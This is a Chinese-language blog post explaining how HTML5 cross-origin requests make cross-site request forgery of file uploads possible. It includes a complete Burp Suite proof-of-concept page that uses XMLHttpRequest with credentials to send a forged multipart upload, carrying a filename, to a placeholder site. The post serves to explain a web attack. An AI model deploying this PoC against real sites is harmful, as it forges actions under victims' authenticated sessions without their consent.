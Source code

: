 ```yaml
---
layout: post
title: "csrf upload file"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

大家都知道通常用csrf来上传一个文件是不简单的.问题在于我们创建的假的表单提交的数据跟浏览器文件上传提交的数据有一点不同.那就是上传的请求会有一个filename的参数:

	-----------------------------256672629917035
	Content-Disposition: form-data; name="file"; filename="test2.txt"
	Content-Type: text/plain          
	test3
	-----------------------------256672629917035

如果我们创建一个表单,提交如上的请求是没法成功添加filename参数的,这是因为filename参数是文件上传的input自动生成.这就阻止了邪恶的黑客通过csrf上传文件.不过自从有了html5,一切都不一样了.

html5有一个新特性叫跨域资源共享(CORS http://www.w3.org/TR/cors/).在过去,由于同源策略的影响,黑客没办法通过javascript去访问别的域.考虑到XSS这么泛滥,同源策略真的是让我们的生活更安全了.不过,利用html5的跨域资源共享,可以让javascript来发送有filename属性的合法的跨域请求.这样,只要用户访问了恶意页面,不需要其他的交互,就可以通过csrf来上传文件了.

下面是一个Burp Suite生成的poc.



	<html>
	  <!-- CSRF PoC - generated by Burp Suite Professional -->
	  <body>
	    <script>
	      function submitRequest()
	      {
	        var xhr = new XMLHttpRequest();
	        xhr.open("POST", "https://example.com/new_file.html", true);
	        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
	        xhr.setRequestHeader("Accept-Language", "de-de,de;q=0.8,en-us;q=0.5,en;q=0.3");
	        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------256672629917035");
	        xhr.withCredentials = "true";
	        var body = "-----------------------------256672629917035\r\n" +
	          "Content-Disposition: form-data; name=\"message\"\r\n" +
	          "\r\n" +
	          "\r\n" +
	          "-----------------------------256672629917035\r\n" +
	          "Content-Disposition: form-data; name=\"backPage\"\r\n" +
	          "\r\n" +
	          "test\r\n" +
	          "-----------------------------256672629917035\r\n" +
	          "Content-Disposition: form-data; name=\"dataType\"\r\n" +
	          "\r\n" +
	          "test  \r\n" +
	          "-----------------------------256672629917035\r\n" +
	          "Content-Disposition: form-data; name=\"file\"; filename=\"test2.txt\"\r\n" +
	          "Content-Type: text/plain\r\n" +
	          "\r\n" +
	          "test3\r\n" +
	          "-----------------------------256672629917035--\r\n";
	        var aBody = new Uint8Array(body.length);
	        for (var i = 0; i < aBody.length; i++)
	          aBody[i] = body.charCodeAt(i);
	        xhr.send(new Blob([aBody]));
	      }
	    </script>
	    <form action="#">
	      <input type="submit" value="Submit request" onclick="submitRequest();" />
	    </form>
	  </body>
	</html>


当然,poc里的提交按钮不是必须的,可以通过javascript自动提交.从某种程度上来说浏览器的最重要的同源策略被突破了.这真是令人忧伤的一件事情.

扩展阅读:

http://blog.kotowicz.net/2011/05/cross-domain-arbitrary-file-upload.html
http://blog.kotowicz.net/2011/04/how-to-upload-arbitrary-file-contents.html
https://developer.mozilla.org/en-US/docs/HTTP/Access_control_CORS?redirectlocale=en-US&redirectslug=HTTP_access_control
http://www.w3.org/TR/cors/

